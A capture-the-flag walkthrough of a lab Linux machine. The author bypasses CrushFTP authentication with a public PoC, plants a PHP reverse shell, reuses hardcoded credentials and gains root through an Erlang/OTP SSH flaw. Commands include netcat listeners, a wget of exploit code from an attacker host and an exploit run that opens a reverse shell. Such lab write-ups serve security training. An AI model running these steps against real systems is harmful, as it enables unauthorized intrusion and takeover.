## Synopsis

Soulmate is an Easy Linux machine centered around a vulnerable **CrushFTP** instance exposed through a hidden virtual host. By exploiting an authentication bypass vulnerability (CVE-2025-31161), I gained administrative access to the FTP service and uploaded a web shell for initial access.

During post-exploitation, I discovered a custom Erlang-based SSH service with hardcoded credentials. Further research revealed a critical Erlang/OTP SSH remote code execution vulnerability (CVE-2025-32433), which ultimately led to root access.
## Scanning

I began by performing a port scan using **rustscan**. 

```bash
rustscan -a 10.129.5.76 -- -sC -sV
```

The scan revealed two open ports:
- **22 (SSH)**
- **80 (HTTP)**


The `--` allows Rustscan to pass arguments directly to Nmap. Here, `-sC -sV` enabled default script scanning and version detection.



Since port 80 was open and serving HTTP traffic, I added the hostname to my `/etc/hosts` file to allow proper domain resolution.

```bash
echo "10.129.5.76    soulmate.htb" | sudo tee -a /etc/hosts
```



---
## Reconnaissance

### Website Exploration

Visiting `http://soulmate.htb` presented a matchmaking-style web application. It appeared to be a platform where users could sign up and get matched with their “soulmate.”

The site featured:
- A login page
- A signup page
- Testimonials from supposed users


Before interacting too deeply with the application, I launched background enumeration. While manually browsing the website, I started:

- `gobuster` for directory brute-forcing
- `ffuf` for virtual host fuzzing

This approach ensures no time is wasted while manually exploring.

---

### Account Creation & Testing

I proceeded to create an account to explore the internal functionality of the application.


After testing the available features and attempting parameter manipulation, I ultimately reached a dead end. There was no immediate injection point or file upload functionality exposed from the main application.

At this point, I returned to the enumeration tools I had running in the background.

---

## Virtual Host Discovery

Gobuster did not reveal any interesting directories. However, `ffuf` identified a new virtual host:

`ftp.soulmate.htb`

```bash
ffuf -H "HOST: FUZZ.soulmate.htb" -u http://soulmate.htb -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-lowercase-2.3-medium.txt -fs 154
```



I added the new subdomain to `/etc/hosts` and navigated to it.

Upon visiting `ftp.soulmate.htb`, I was greeted with a login interface for **CrushFTP**.


---

## Understanding CrushFTP

Before attempting exploitation, it is important to understand what CrushFTP is.

**CrushFTP** is a secure file transfer server used by businesses to share files over protocols such as:
- FTP
- SFTP
- HTTP/HTTPS

It includes:
- SSL/TLS encryption 
- User and permission management
- Web-based administrative interface
- Monitoring and automation features

In simple terms, it acts like a secure digital file-sharing platform.

Viewing the page source (`CTRL + U`) revealed that the server was running **CrushFTP version 11**.



---

### Vulnerability Research

With the version identified, I searched for known vulnerabilities affecting CrushFTP v11.

I discovered **CVE-2025-31161**, an authentication bypass vulnerability.

#### What the CVE Does

This vulnerability allows an attacker to:

- Bypass authentication
- Create a new administrative account
- Gain full control over the CrushFTP instance

The exploit requires the username of an existing account (commonly `crushadmin` or `admin`).

GitHub PoC: https://github.com/Immersive-Labs-Sec/CVE-2025-31161

This vulnerability was particularly dangerous because it did not require valid credentials — it abused improper validation in the authentication logic.

---

## Exploiting CrushFTP

I executed the PoC script to create a new administrative user:

```bash
python3 cve-2025-31161.py --target_host ftp.soulmate.htb --port 80 --target_user admin --new_user administrator --password admin123
```



The exploit successfully created a new admin user named `administrator`.

After logging in, I gained access to the CrushFTP administrative dashboard.



---

### Enumerating Users

Inside the Admin panel, I navigated to **User Manager**.



Several users were listed. One user stood out: `ben`.

Accessing Ben’s configuration panel revealed that I could:

- Change his password
- View his accessible directories



One directory in particular caught my attention: `webProd`.



This appeared to be the production web directory. Importantly, Ben had **upload permissions** in this folder.

That meant I could potentially upload a web shell.

---

## Initial Access

I logged out and signed in as `ben` after resetting his password.



Navigating to the `webProd` directory, I uploaded a PHP reverse shell (pentestmonkey).



On my attacker machine, I started a listener:

```bash
nc -lvnp 4444
```

Then triggered the shell using curl:

```bash
curl http://soulmate.htb/shell.php
```



I received a reverse shell.



After gaining initial access, I upgraded the shell to a fully interactive TTY.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Then stabilized it:
 
```bash
CTRL+Z stty raw -echo fg export SHELL=/bin/bash export TERM=screen stty rows 38 columns 116 reset
```


Now I had a stable working shell for enumeration.

---

## Post-Exploitation Enumeration

I uploaded **linpeas** to identify possible privilege escalation vectors.



During enumeration, I noticed a running process related to **Erlang**.

This was unusual, as Erlang is not commonly found on standard Linux servers unless specifically required by an application.

**What Erlang is**

Erlang is a programming language designed for highly concurrent and fault-tolerant systems. It runs on the BEAM virtual machine and is commonly used in telecom infrastructure and distributed systems.

Finding it on a typical Linux web server was unusual, which warranted further investigation

In this case, Erlang was being used to run a custom service.

---

## Investigating the Erlang Service

I located a suspicious directory:

```
/usr/local/lib/erlang_login
```

Inside it, I found `start.escript`.

```bash
cat /usr/local/lib/erlang_login/start.escript
```



Within the script, I discovered hardcoded credentials:

```
ben : HouseH0ldings998
```

### What the Script Does

The script launches a custom SSH daemon using Erlang’s built-in SSH library. It:

- Binds to `127.0.0.1:2222`
- Starts required Erlang crypto and SSH modules
- Uses hardcoded credentials
- Runs independently of system OpenSSH

Because it binds only to localhost, it is not externally accessible. However, once a shell is obtained, it becomes reachable. Since credentials are embedded directly in the source code, this effectively **acts as a local backdoor.**

---

## User Flag

I logged in via SSH:

```bash
ssh ben@soulmate.htb
```

Using the password:

`HouseH0ldings998`

To access the internal SSH service:

```bash
ssh -L 2222:127.0.0.1:2222 ben@soulmate.htb
```



After gaining access, I retrieved the user flag:

---

## Privilege Escalation

With port 2222 forwarded, I enumerated it locally:

```bash
nmap -sC -sV -p2222 127.0.0.1
```



The version revealed:

`Erlang/5.2.9`

Searching for vulnerabilities affecting this version led to **CVE-2025-32433**, a critical Erlang/OTP SSH remote code execution vulnerability.

**What CVE-2025-32433 Does**

This vulnerability affects Erlang/OTP SSH versions prior to 5.2.10. It allows unauthenticated remote code execution due to improper handling of SSH protocol messages.

In essence:
- No valid SSH credentials are required
- Arbitrary commands can be executed
- Full system compromise is possible.

PoC: https://github.com/omer-efe-curkus/CVE-2025-32433-Erlang-OTP-SSH-RCE-PoC

---

## Exploiting Erlang SSH

I transferred the exploit to the target:

```bash
# Attacker
python3 -m http.server 8000

# Target
wget http://<attacker-ip>:8000/cve-2025-32433.py
```



Started a listener:

```bash
# Attacker
nc -lvnp 4444
```

Executed the exploit:

```bash
python3 cve-2025-32433.py 127.0.0.1 -p 2222 --shell --lhost 192.168.1.100 --lport 443
```



I received a root shell.

Navigating to the root directory, I retrieved the root flag.



---
Machine pwned

